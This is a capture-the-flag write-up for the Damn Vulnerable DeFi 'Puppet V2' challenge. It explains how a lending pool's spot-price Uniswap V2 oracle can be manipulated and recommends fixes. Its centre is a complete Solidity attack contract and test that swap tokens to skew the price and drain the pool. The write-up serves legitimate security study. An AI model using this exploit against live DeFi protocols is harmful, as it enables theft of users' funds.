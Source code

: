 # Puppet V2

The developers of the [previous pool](https://damnvulnerabledefi.xyz/challenges/puppet/) seem to have learned the lesson. And released a new version.

Now they're using a Uniswap v2 exchange as a price oracle, along with the recommended utility libraries. Shouldn't that be enough?

You start with 20 ETH and 10000 DVT tokens in balance. The pool has a million DVT tokens in balance at risk!

Save all funds from the pool, depositing them into the designated recovery account.

# Puppet V2 Challenge - Vulnerability Report

## Overview
The Puppet V2 challenge involves a lending pool that allows users to borrow Damn Valuable Tokens (DVTs) by depositing WETH as collateral. The pool uses a Uniswap V2 exchange as a price oracle to determine the required collateral amount. Despite using Uniswap V2 and its recommended utility libraries, the pool remains vulnerable to price manipulation.

## Vulnerability Details

### Severity: Critical
- Impact: High (Loss of all pool funds)
- Likelihood: High (Easy to execute)
- CVSS Score: 9.0

### Root Cause
The vulnerability stems from the lending pool's reliance on the Uniswap V2 exchange as a price oracle. The pool calculates the required collateral using the following formula in `calculateDepositOfWETHRequired()`:

```solidity
function calculateDepositOfWETHRequired(uint256 tokenAmount) public view returns (uint256) {
    uint256 depositFactor = 3;
    return _getOracleQuote(tokenAmount) * depositFactor / 1 ether;
}

function _getOracleQuote(uint256 amount) private view returns (uint256) {
    (uint256 reservesWETH, uint256 reservesToken) =
        UniswapV2Library.getReserves({factory: _uniswapFactory, tokenA: address(_weth), tokenB: address(_token)});

    return UniswapV2Library.quote({amountA: amount * 10 ** 18, reserveA: reservesToken, reserveB: reservesWETH});
}
```

The key issues are:

1. **Manipulable Price Oracle**: The price is calculated directly from the Uniswap V2 pool's reserves without any time-weighted average or other protection mechanisms.

2. **No Slippage Protection**: The pool doesn't implement any slippage protection or minimum liquidity requirements.

3. **Single Source of Truth**: The pool relies solely on the Uniswap V2 pool's reserves for price determination.

## Attack Vector

An attacker can exploit this vulnerability by:

1. Using their initial DVT balance (10,000 DVT) to manipulate the Uniswap V2 pool's reserves
2. Swapping a large amount of DVT for WETH in the Uniswap V2 pool
3. This drastically changes the price ratio in the pool
4. The lending pool's price oracle will now return a much lower price
5. The attacker can then borrow all tokens from the lending pool with minimal WETH collateral

## Proof of Concept

```solidity
contract PuppetV2Attack {
    IUniswapV2Router02 public immutable uniswapV2Router;
    PuppetV2Pool public immutable lendingPool;
    DamnValuableToken public immutable token;
    WETH public immutable weth;
    address public immutable recovery;

    constructor(
        address _uniswapV2Router,
        address _lendingPool,
        address _token,
        address _weth,
        address _recovery
    ) {
        uniswapV2Router = IUniswapV2Router02(_uniswapV2Router);
        lendingPool = PuppetV2Pool(_lendingPool);
        token = DamnValuableToken(_token);
        weth = WETH(payable(_weth));
        recovery = _recovery;
    }

    function attack() external payable {
        // 1. Wrap ETH to WETH
        weth.deposit{value: msg.value}();

        // 2. Approve Uniswap V2 Router to spend our tokens
        token.approve(address(uniswapV2Router), token.balanceOf(address(this)));
        weth.approve(address(uniswapV2Router), weth.balanceOf(address(this)));

        // 3. Swap all our DVT tokens for WETH
        // This will drastically change the price ratio in the pool
        address[] memory path = new address[](2);
        path[0] = address(token);
        path[1] = address(weth);
        
        uniswapV2Router.swapExactTokensForTokens(
            token.balanceOf(address(this)),
            1, // min amount out (we don't care about slippage)
            path,
            address(this),
            block.timestamp * 2
        );

        // 4. Now the price oracle will return a much lower price
        // We can borrow all tokens from the lending pool with minimal WETH
        uint256 borrowAmount = token.balanceOf(address(lendingPool));
        uint256 depositRequired = lendingPool.calculateDepositOfWETHRequired(borrowAmount);

        // 5. Approve lending pool to spend our WETH
        weth.approve(address(lendingPool), depositRequired);

        // 6. Borrow all tokens from the lending pool
        lendingPool.borrow(borrowAmount);

        // 7. Transfer all borrowed tokens to recovery address
        token.transfer(recovery, token.balanceOf(address(this)));

        // 8. Unwrap any remaining WETH and send ETH back to the player
        uint256 remainingWeth = weth.balanceOf(address(this));
        if (remainingWeth > 0) {
            weth.withdraw(remainingWeth);
            payable(msg.sender).transfer(address(this).balance);
        }
    }

    receive() external payable {}
}
```

And the test function that executes the attack:

```solidity
function test_puppetV2() public checkSolvedByPlayer {
    // Deploy the attack contract
    PuppetV2Attack attack = new PuppetV2Attack(
        address(uniswapV2Router),
        address(lendingPool),
        address(token),
        address(weth),
        recovery
    );

    // Transfer all tokens to the attack contract
    token.transfer(address(attack), token.balanceOf(player));

    // Execute the attack
    attack.attack{value: player.balance}();
}
```

## Impact
- The attacker can drain all tokens from the lending pool (1,000,000 DVT)
- The attack requires minimal WETH collateral due to the manipulated price
- The attack can be executed in a single transaction
- The attack is more efficient than the original Puppet challenge due to Uniswap V2's improved liquidity model

## Recommendations

### Short-term Fixes
1. Implement a time-weighted average price (TWAP) oracle using Uniswap V2's built-in price accumulator
2. Add minimum liquidity requirements for the Uniswap V2 pool
3. Implement slippage protection in the price calculation
4. Add a minimum time delay between price updates

### Long-term Fixes
1. Use multiple price oracles and aggregate their results
2. Implement circuit breakers for significant price movements
3. Consider using Uniswap V3 with its concentrated liquidity and improved price oracle
4. Add a minimum holding period for borrowed tokens
5. Implement a maximum borrow amount based on pool liquidity

## References
- [Uniswap V2 Documentation](https://docs.uniswap.org/contracts/v2/overview)
- [Uniswap V2 Price Oracle](https://docs.uniswap.org/contracts/v2/concepts/core-concepts/oracles)
- [Price Oracle Manipulation](https://consensys.github.io/smart-contract-best-practices/development-recommendations/general/external-calls/#price-oracles)
- [ERC4626 Vault Standard](https://eips.ethereum.org/EIPS/eip-4626)
